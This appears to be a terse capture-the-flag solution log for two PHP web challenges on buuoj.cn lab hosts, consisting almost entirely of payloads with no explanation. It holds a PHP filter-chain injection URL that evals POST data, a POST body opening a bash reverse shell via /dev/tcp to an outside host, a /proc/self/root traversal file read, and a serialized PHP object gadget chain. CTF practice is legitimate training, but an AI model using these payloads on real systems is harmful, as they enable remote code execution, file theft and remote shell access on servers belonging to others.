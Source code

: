 -
- # 第一题
	- ```
	  http://80.endpoint-a377d7ea468845498c616508a12b7d78.dasc.buuoj.cn:81/?file=php%3A%2F%2Ffilter%2Fconvert%2Eiconv%2EUTF8%2ECSISO2022KR%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ECSGB2312%2EUTF%2D32%7Cconvert%2Eiconv%2EIBM%2D1161%2EIBM932%7Cconvert%2Eiconv%2EGB13000%2EUTF16BE%7Cconvert%2Eiconv%2E864%2EUTF%2D32LE%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EL5%2EUTF%2D32%7Cconvert%2Eiconv%2EISO88594%2EGB13000%7Cconvert%2Eiconv%2EGBK%2EUTF%2D8%7Cconvert%2Eiconv%2EIEC%5FP27%2D1%2EUCS%2D4LE%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2E865%2EUTF16%7Cconvert%2Eiconv%2ECP901%2EISO6937%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ESE2%2EUTF%2D16%7Cconvert%2Eiconv%2ECSIBM1161%2EIBM%2D932%7Cconvert%2Eiconv%2EMS932%2EMS936%7Cconvert%2Eiconv%2EBIG5%2EJOHAB%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2E851%2EUTF%2D16%7Cconvert%2Eiconv%2EL1%2ET%2E618BIT%7Cconvert%2Eiconv%2EISO%2DIR%2D103%2E850%7Cconvert%2Eiconv%2EPT154%2EUCS4%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EJS%2EUNICODE%7Cconvert%2Eiconv%2EL4%2EUCS2%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EINIS%2EUTF16%7Cconvert%2Eiconv%2ECSIBM1133%2EIBM943%7Cconvert%2Eiconv%2EGBK%2ESJIS%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EPT%2EUTF32%7Cconvert%2Eiconv%2EKOI8%2DU%2EIBM%2D932%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ECP%2DAR%2EUTF16%7Cconvert%2Eiconv%2E8859%5F4%2EBIG5HKSCS%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EIBM869%2EUTF16%7Cconvert%2Eiconv%2EL3%2ECSISO90%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EL5%2EUTF%2D32%7Cconvert%2Eiconv%2EISO88594%2EGB13000%7Cconvert%2Eiconv%2ECP950%2ESHIFT%5FJISX0213%7Cconvert%2Eiconv%2EUHC%2EJOHAB%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ECP861%2EUTF%2D16%7Cconvert%2Eiconv%2EL4%2EGB13000%7Cconvert%2Eiconv%2EBIG5%2EJOHAB%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EL5%2EUTF%2D32%7Cconvert%2Eiconv%2EISO88594%2EGB13000%7Cconvert%2Eiconv%2ECP950%2ESHIFT%5FJISX0213%7Cconvert%2Eiconv%2EUHC%2EJOHAB%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EINIS%2EUTF16%7Cconvert%2Eiconv%2ECSIBM1133%2EIBM943%7Cconvert%2Eiconv%2EGBK%2EBIG5%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ECP1162%2EUTF32%7Cconvert%2Eiconv%2EL4%2ET%2E61%7Cconvert%2Eiconv%2EISO6937%2EEUC%2DJP%2DMS%7Cconvert%2Eiconv%2EEUCKR%2EUCS%2D4LE%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EPT%2EUTF32%7Cconvert%2Eiconv%2EKOI8%2DU%2EIBM%2D932%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EJS%2EUNICODE%7Cconvert%2Eiconv%2EL4%2EUCS2%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ESE2%2EUTF%2D16%7Cconvert%2Eiconv%2ECSIBM921%2ENAPLPS%7Cconvert%2Eiconv%2E855%2ECP936%7Cconvert%2Eiconv%2EIBM%2D932%2EUTF%2D8%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ECN%2EISO2022KR%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EJS%2EUNICODE%7Cconvert%2Eiconv%2EL4%2EUCS2%7Cconvert%2Eiconv%2EUCS%2D2%2EOSF00030010%7Cconvert%2Eiconv%2ECSIBM1008%2EUTF32BE%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ECSGB2312%2EUTF%2D32%7Cconvert%2Eiconv%2EIBM%2D1161%2EIBM932%7Cconvert%2Eiconv%2EGB13000%2EUTF16BE%7Cconvert%2Eiconv%2E864%2EUTF%2D32LE%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ESE2%2EUTF%2D16%7Cconvert%2Eiconv%2ECSIBM1161%2EIBM%2D932%7Cconvert%2Eiconv%2EBIG5HKSCS%2EUTF16%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EPT%2EUTF32%7Cconvert%2Eiconv%2EKOI8%2DU%2EIBM%2D932%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ESE2%2EUTF%2D16%7Cconvert%2Eiconv%2ECSIBM1161%2EIBM%2D932%7Cconvert%2Eiconv%2EBIG5HKSCS%2EUTF16%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ESE2%2EUTF%2D16%7Cconvert%2Eiconv%2ECSIBM921%2ENAPLPS%7Cconvert%2Eiconv%2E855%2ECP936%7Cconvert%2Eiconv%2EIBM%2D932%2EUTF%2D8%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2E8859%5F3%2EUTF16%7Cconvert%2Eiconv%2E863%2ESHIFT%5FJISX0213%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ECP1046%2EUTF16%7Cconvert%2Eiconv%2EISO6937%2ESHIFT%5FJISX0213%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ECP1046%2EUTF32%7Cconvert%2Eiconv%2EL6%2EUCS%2D2%7Cconvert%2Eiconv%2EUTF%2D16LE%2ET%2E61%2D8BIT%7Cconvert%2Eiconv%2E865%2EUCS%2D4LE%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EMAC%2EUTF16%7Cconvert%2Eiconv%2EL8%2EUTF16BE%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ECSIBM1161%2EUNICODE%7Cconvert%2Eiconv%2EISO%2DIR%2D156%2EJOHAB%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2EINIS%2EUTF16%7Cconvert%2Eiconv%2ECSIBM1133%2EIBM943%7Cconvert%2Eiconv%2EIBM932%2ESHIFT%5FJISX0213%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Eiconv%2ESE2%2EUTF%2D16%7Cconvert%2Eiconv%2ECSIBM1161%2EIBM%2D932%7Cconvert%2Eiconv%2EMS932%2EMS936%7Cconvert%2Eiconv%2EBIG5%2EJOHAB%7Cconvert%2Ebase64%2Ddecode%7Cconvert%2Ebase64%2Dencode%7Cconvert%2Eiconv%2EUTF8%2EUTF7%7Cconvert%2Ebase64%2Ddecode%2Fresource%3D%2Fetc%2Fpasswd&1=ev%61l%28%24%5FPOST%5B%27data%27%5D%29%3B
	  ```
	- ```
	  data=system%28%27bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2Fca%2Exxx%2Exyz%2F3001%200%3E%261%22%27%29%3Becho%20%27%3Cbr%3E%3Cbr%3E%5Cn%5Cn%27%3B
	  ```
- # 第二题
	- ```
	  cheng::__wakeup() --> c1.set --> bei::__set() --> b1.toString --> yang::__tostring() 
	  --> function call --> cheng::__invoke --> c1.hint --> yang::hint
	  ```
	- ```
	  http://80.endpoint-be5d6b03e32f49b9bb1493e155e8d953.dasc.buuoj.cn:81/?file=php://filter/read=convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/cwd/hint.php
	  ```
	- ```
	  ans=O%3A5%3A%22cheng%22%3A1%3A%7Bs%3A2%3A%22c1%22%3BO%3A3%3A%22bei%22%3A2%3A%7Bs%3A2%3A%22b1%22%3BO%3A4%3A%22yang%22%3A1%3A%7Bs%3A2%3A%22y1%22%3BO%3A5%3A%22cheng%22%3A1%3A%7Bs%3A2%3A%22c1%22%3BO%3A4%3A%22yang%22%3A1%3A%7Bs%3A2%3A%22y1%22%3BN%3B%7D%7D%7Ds%3A2%3A%22b2%22%3BN%3B%7D%7D
	  ```
	- hint.php
		- ```
		  <?php
		  $hey_mean_then = "\.\.\/|var|www|html|conf|lmx|decode|expect|http|https|data|glob|phar|host|g$|[0-3]|[7-9]|~|\*|\?| |\_|%|\^|\"|\'|\||\`|{|}|<|>|;|\(|\)";
		  //dHJ5IC8xOTE5ODEwNDE1NDEx
		  ?>
		  ```
	- 地址：
		- http://80.endpoint-be5d6b03e32f49b9bb1493e155e8d953.dasc.buuoj.cn:81/1919810415411/lmx.php
		-